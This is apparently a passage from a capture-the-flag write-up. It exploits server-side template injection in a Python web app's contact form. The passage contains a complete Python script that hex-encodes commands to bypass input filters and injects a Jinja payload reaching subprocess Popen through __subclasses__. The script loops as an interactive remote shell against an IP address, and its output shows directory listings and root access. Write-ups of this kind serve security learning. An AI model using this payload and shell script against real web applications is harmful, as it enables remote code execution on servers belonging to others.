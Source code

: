 Then I remembered that Python would like accept a `tuple` in place of a `list` and tuples use  parenthesis`(` and `)`which go through the filter ok. This allows us to create a `Popen` call with any number of arguments. It was at this point I wrote some code to give me a remote command shell:

```python
import html
import requests

url =  "http://195.248.243.132/contact"

def hexx(s):
    return ''.join([hex(ord(i)).replace("0x","\\x") for i in s])

s = requests.Session()

while True:
    cmd = input("$ ").strip()

    # encode entire shell command to ensure every filter is bypassed.    
    cmd = cmd.split()
    sh = '('
    for c in range(len(cmd)-1):
        sh += "'" + hexx(cmd[c]) + "',"
    
    sh += "'" + hexx(cmd[-1]) + "')"

    payload = "{% raw %}{{()|attr('\\x5f\\x5fclass\\x5f\\x5f')|attr('\\x5f\\x5fbase\\x5f\\x5f')|attr('\\x5f\\x5fsubclasses\\x5f\\x5f')()|attr('\\x5f\\x5fgetitem\\x5f\\x5f')(360)(%s,stdout=-1)|attr('communicate')()|attr('\\x5f\\x5fgetitem\\x5f\\x5f')(0)}}{% endraw %}" % sh
    data = {'name':payload, 'email':'b', 'message':'b', 'submit':''}
    r = s.post(url, data=data)

    try:
        res = r.content.decode().split('Dear ')[1].split(', we have')[0]
    except IndexError:
        print("Error: %s" % r.content)
        quit()

    res = html.unescape(html.unescape(res))[2:-1]
    for line in res.split('\\n'):
        print(line)
```

This gives me an interactive shell essentially so I can look for the flag:

```shell
$ ./shell.py 
$ ls -la
total 40
drwxr-x--- 1 root ctf  4096 Sep 10 01:44 .
drwxr-xr-x 1 root root 4096 Sep  9 07:55 ..
drwxr-xr-x 2 root root 4096 Sep  9 07:56 __pycache__
-rwxr-x--- 1 root ctf  1150 Sep  6 17:15 app.py
-rwxr-x--- 1 root ctf    54 Sep  3 00:51 help
-rwxr-x--- 1 root ctf    33 Sep  3 02:49 requirements.txt
drwxr-x--- 1 root ctf  4096 Sep  9 07:48 static
drwxr-x--- 1 root ctf  4096 Sep  9 07:48 templates

$ whoami
root
```
